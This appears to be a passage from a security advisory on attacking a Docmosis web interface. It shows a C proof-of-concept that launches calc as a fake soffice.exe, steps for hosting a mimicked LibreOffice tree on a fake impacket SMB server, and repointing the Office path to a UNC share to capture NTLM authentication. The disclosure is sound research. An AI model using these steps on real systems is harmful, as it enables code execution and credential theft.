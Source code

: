 * We create a "malicious" `soffice.exe` file with a C cross compiler with the following code underneath.

```
void main()
{
	system("cmd.exe /C calc");
}
```

* We mimick the directory/file structure of a valid LibreOffice installation on our remote attacker server.

* We provide a fake SMB server with help of [the impacket suite](https://github.com/fortra/impacket).

* We change the Office location in the web UI pointing to this server `\\10.137.0.16\myshare\LibreOffice`.

![changepath](/assets/images/docmosis/docmosisreport15.png)

* We observe NTLM authentication on our fake SMB server.

![ntlmauth](/assets/images/docmosis/docmosisreport4.png)
